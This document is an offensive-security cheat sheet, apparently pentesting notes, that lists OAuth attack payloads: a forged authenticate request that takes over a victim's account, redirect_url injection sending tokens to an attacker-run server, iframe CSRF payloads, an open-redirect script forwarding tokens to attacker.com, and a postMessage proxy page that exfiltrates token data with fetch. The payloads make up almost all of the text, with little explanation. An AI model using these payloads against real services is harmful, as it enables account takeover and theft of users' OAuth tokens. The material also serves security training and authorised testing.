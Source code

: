 ```yaml
---
title: OAuth Attack
desc: 
tags: [Burp Suite, CSRF, OAuth, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change User Info

```json
POST /authenticate HTTP/1.1
...

{
    "email":"victim@example.com",
    "username":"attacker",
    "token":"b7Gl7Xoy..."
}
```

<br />

## 2. Steal Tokens

1. **Open Web Server in Your Local Machine**

    ```sh
    python3 -m http.server 8000
    ```

2. **Inject Your Local URL to the Redirect URL**

    Access to the URL below.

    ```sh
    https://vulnerable.com/oauth?redirect_url=http://<attacker-ip>:8000/login&response_type=token&scope=all
    ```

<br />

## 3. CSRF

1. **Steal Code**

    ```html
    <iframe src="https://vulnerable.com/oauth-linking?code=kZ7bfFa..."></iframe>
    ```

2. **Hijack redirect_url**

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=ysdj...&redirect_uri=https://attacker.com&response_type=code&scope=openid%20profile%20email">
    </iframe>
    ```

3. **Open Redirect**

    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://vulnerable.com/auth?client_id=7Fdx8a...&redirect_uri=https://vulnerable.com/oauth-callback/../post/next?path=https://attacker.com/exploit/&response_type=token&nonce=398...&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```

4. **Proxy Page (postMessage)**

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=iknf...&redirect_uri=https://vulnerable.com/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-118...&scope=openid%20profile%20email"></iframe>
    <script>
        window.addEventListener('message', e => {
            fetch("/" + encodeURIComponent(e.data.data));
        }, false);
    </script>
    ```
